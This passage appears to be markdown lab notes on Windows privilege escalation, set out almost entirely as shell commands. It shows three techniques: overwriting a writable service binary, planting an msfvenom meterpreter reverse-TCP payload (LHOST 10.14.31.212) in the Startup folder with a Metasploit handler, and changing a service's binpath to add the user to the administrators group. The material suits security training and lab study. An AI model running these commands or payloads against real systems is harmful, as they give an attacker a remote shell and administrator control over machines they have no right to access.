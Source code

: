 ```shell
# another way to check if the vulnerability exists. In victim cmd prompt:
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
#'everyone' user group has all access permission on filepermservice.exe

#similar to regsvc
#create and upload malicious exe to C:\Temp
copy /y C:\Temp\x.exe "C:\Program Files\File Permissions Service\filepermservice.exe"

sc start filepermsvc

net localgroup administrators
#our user is added to admin group
```

## Startup Applications

```shell
#in windows cmd prompt
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# if Users groud has Full access F to directory this will work
#BUILTIN\Users group has full access (F) to directory

#in attacker machine
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.31.212 -f exe -o x.exe

msfconsole -q

use multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST 10.14.31.212

run

#now copy x.exe to windows machine
move x.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# or using http server, to drop the file in win machine

#logout and then login as administrator
#we get a meterpreter shell now
```

## Service Permissions

```shell
# run powerup.ps1 and look for "Checking service permissions"
#binary paths
#in windows cmd
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc Everyone *

C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc  # daclsvc is being service name in this case
#user has SERVICE_CHANGE_CONFIG permission

sc qc daclsvc

sc config daclsvc binpath= "net localgroup administrators user /add"

sc start daclsvc

net localgroup administrators
```